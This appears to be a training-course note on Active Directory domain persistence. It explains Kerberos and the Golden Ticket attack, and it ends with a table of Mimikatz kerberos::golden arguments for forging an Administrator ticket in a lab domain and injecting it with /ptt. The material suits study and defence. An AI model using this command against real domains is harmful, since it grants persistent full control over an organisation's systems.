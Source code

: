 # **Domain Persistence**


- There is much to active directory than "just" the Domain Admin.
- Once we have DA privileges new avenues of persistence, escalation to EA and attacks across trust open up!



## **Kerberos**

- Kerberos is the basis of authentication in a Windows Active Directory environment.
- Clients (programs on behalf of a user) need to obtain tickets from Key Distribution Center (KDC) which is a service running on the domain controller.
- These tickets represent the client's credentials.Therefore, Kerberos is understandably a very interesting target of abuse!



![](https://i.imgur.com/lpHU58k.png)



## **Golden Ticket**


- A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.
- The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.
- As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.




![](https://i.imgur.com/f4Ti5Jm.png)




|  Options    |      |
|:-----|:-----|
|  kerberos::golden    |      |
|    /User:Administrator  |      |
|   /domain:dollarcorp.moneycorp.local   |      |
|  /sid:S-1-5-21-719815819-3726368948-3917688648|      |
|   /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848   |      |
|    /id:500 /groups:512  |      |
|  /ptt   
  OR 
/ticket
|      |
|      |      |
|      |      |
|      |      |
